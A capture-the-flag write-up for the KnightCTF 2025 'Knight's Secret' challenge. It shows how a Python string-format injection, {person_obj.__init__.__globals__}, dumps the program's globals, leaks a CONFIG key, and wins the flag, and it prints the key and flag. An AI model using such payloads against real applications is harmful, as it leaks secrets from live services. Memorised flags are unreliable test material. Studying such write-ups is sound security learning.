 ```yaml
---
title: "Knight's Secret"
description: ""
pubDate: 2025-01-22
ctf: "KnightCTF 2025"
category: "pwn"
author: "sealldev"
section: "CTFs"
image: "images/25-knight/icon.png"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/knightctf2025#knights-secret)

Note: This was less of a typical Pwn and was a pyjail.

We connect to the server and see this:

```bash
└─$ nc 45.56.68.122 1337
==================================================
Welcome to the Knight's Secret!
The castle's vault holds a secret key, protected within the CONFIG dictionary.
You are a knight tasked with proving the strength of the vault's defenses.
To succeed, you must craft an input to reveal the hidden key within the system.
You will be provided with a user object representing a knight, with attributes 'name' and 'role'.
Once you discover the key, input it again to receive the banner of victory.

Example of a safe template: 'Greetings, {person_obj.name}, the {person_obj.role}.'
Type 'hint' if you need guidance or 'exit' to withdraw from the quest.
==================================================

Enter your secret:
```

Our aim is to find the `CONFIG` dictionary.

We can see entering just the object shows an instance, so we know this is Python:

```
Enter your secret: {person_obj}
Output: <__main__.Person object at 0x703c0aa16480>
```

Using the [PyJail Cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet) I use `.__init__.__globals__` to get the `CONFIG` dictionary.

```
Enter your secret: {person_obj.__init__.__globals__}
Output: {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7e23d44d78f0>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/challenge/challenge.py', '__cached__': None, 'CONFIG': {'KEY': '_KNIGHTSECRET2025_'}, 'Person': <class '__main__.Person'>, 'fun': <function fun at 0x7e23d44be340>, 'main': <function main at 0x7e23d429cd60>}
```

We can then enter the secret for the flag.

```
Enter your secret: _KNIGHTSECRET2025_
Congratulations, noble knight! You have unveiled the vault's secret.
Here is your banner of victory: KCTF{_c0ngRaT5_Kn1GHT_Y0U_g07_THE_secreT_}
```

Flag: `KCTF{_c0ngRaT5_Kn1GHT_Y0U_g07_THE_secreT_}`
